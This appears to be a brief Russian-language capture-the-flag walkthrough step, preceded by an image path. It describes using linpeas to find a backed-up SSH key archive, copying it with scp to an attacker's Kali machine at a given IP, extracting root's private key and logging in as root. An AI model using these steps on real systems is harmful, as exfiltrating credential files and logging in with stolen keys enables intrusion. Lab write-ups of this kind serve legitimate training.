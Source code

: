 С помощью linpeas находим файл /mnt/backup/sshkey_backup.zip
запускаем ssh у себя на машине и передаем файл scp /mnt/backup/sshkey_backup.zip  kali@100.100.2.252:/tmp
Затем распакуем его и найдем id_rsa для root пользователя
Подключаемся по ssh с помощью id_rsa и забираем флаг
